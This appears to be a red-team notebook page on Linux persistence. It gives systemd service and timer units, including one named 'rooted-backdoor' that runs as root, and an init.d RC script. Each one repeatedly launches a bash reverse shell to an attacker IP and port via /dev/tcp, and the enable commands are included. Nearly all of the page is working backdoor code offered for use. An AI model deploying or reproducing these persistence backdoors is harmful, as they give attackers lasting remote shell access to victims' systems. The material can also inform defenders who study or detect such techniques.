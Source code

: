 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Living off the Land

## 01 - Systemd

### 1.1 - Service

Non-elevated system daemon.

```
$ cat /etc/systemd/system/maintenance-check.service
[Unit]
Description=Maintenance Service

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

Elevated system daemon.

```
$ cat /etc/systemd/system/rooted-backdoor.service
[Unit]
Description=Backdoor service

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

Reload all daemon services

```
$ sudo systemctl daemon-reload
```

Enable service daemon.

```
$ sudo systemctl enable payload.service
```

### 1.2 - Timer

Create a timer.

```
$ nano ~/.config/systemd/user/payload.timer
[Unit]
Description="Updater Service"

[Timer]
OnBootSec=1min
OnUnitActiveSec=24h
OnCalendar=Mon..Fir *-*-* 09:06:*
Unit=payload.service

[Install]
WantedBy=multi-user.target
```

Once the timer has been created then create a service and specify a path for the payload. Then wait for the service to detonate it.

```
$ nano ~/.config/systemd/user/payload.service
[Unit]
Description="Updater script"

[Service]
ExecStart=/path/to/payload.sh
```

## 02 - RC Scripts

Elevated RC script.

```bash
#!/bin/bash

payload() {
	while true
	do
		bash -c 'exec bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1' &
		sleep 30
	done
}

case "$1" in
	start)
		payload
		;;
	stop)
		pkill -f "bash -c exec bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1"
		;;
	restart)
		$0 stop
		$0 start
		;;
	*)
		echo "Usage $0 {start|stop|restart}"
		exit 1
esac

exit 0
```

Make the script executable and then enable it.

```
$ sudo chmod 755 /etc/init.d/payload

$ sudo update-rc.d payload defaults
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Malware Development/Helpers/Persistence/Linux/Autostart Locations]]

- [[Linux Post Exploitation Persistence References]]

### DMCXBlue

- [DMCXBlue: Systemd Service](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1543-create-or-modify-system-process/systemd-service)

- [DMCXBlue: RC Scripts](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1037-boot-or-logon-initialization-scripts/rc-scripts)

- [DMCXBlue: Systemd Timers](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1053-scheduled-tasks-job/systemd-timers)